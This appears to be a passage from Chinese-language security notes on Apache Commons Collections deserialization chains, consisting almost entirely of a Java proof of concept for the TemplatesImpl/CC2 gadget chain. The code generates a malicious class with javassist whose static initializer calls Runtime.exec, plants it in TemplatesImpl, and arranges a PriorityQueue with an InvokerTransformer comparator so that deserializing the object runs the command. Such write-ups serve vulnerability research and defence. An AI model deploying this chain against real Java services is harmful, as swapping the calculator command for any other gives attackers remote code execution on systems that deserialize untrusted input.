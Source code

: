回顾之前 CC2 gadget chain 中执行 transform 的点，只需要 obj1 可控，则满足条件

![](Commons-Collections-反序列化利用链分析/image-20210213142428801.png)

**TemplatesImpl 利用链 payload**

```java
public class TemplatesImplDemo {
    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(2);
        // javassist
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Demo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);
        Object[] queue_array = new Object[]{templates, 1};

        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue, queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue, 2);


        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue, comparator);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(queue);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();

    }

```